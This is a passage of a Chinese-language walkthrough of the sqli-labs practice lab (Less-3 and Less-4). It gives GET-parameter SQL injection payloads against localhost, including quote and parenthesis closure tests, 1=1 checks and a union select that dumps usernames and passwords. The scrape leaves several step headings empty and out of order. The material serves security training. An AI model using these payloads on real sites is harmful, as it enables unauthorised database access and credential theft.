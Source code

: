 

<h3>**第八步：爆数据**</h3>
http://localhost:8080/sqli-labs-master/Less-3/<br/> ?id=-1')  union select 1,username,password from users where id=2--+

 


### **第一步：注入点测试**

---


### **第三步：判断回显位**

---


### **第五步：爆数据库名**

---


### **第七步：爆字段名**

---


> 
<h2>四、Less4（GET-Error based - Double Quotes String）</h2>
<h3>简介：（双引号+  ）+字符型注入）</h3>
请求方式：GET
方法：错误注入
<hr/>
<h3>**第一步：注入点测试**</h3>
提示输入id（然后就传入一个ID）

测试闭合符号
http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=1'
在后面加上了’
正常输出

 
http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=1"
在后面加上“
提示要闭合  ）

 http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=1")--+
闭合了”和），再注释掉后面的
正常回显

 


判断注入类型
闭合前面单引号，注释掉后面引号
通过and连接1=1    和   1=2来判断是否为字符型注入
http://localhost:8080/sqli-labs-master/Less-4/<br/> ?id=1") and 1=1--+
（正确回显，因为1=1确实对的，但是还不能下结论）
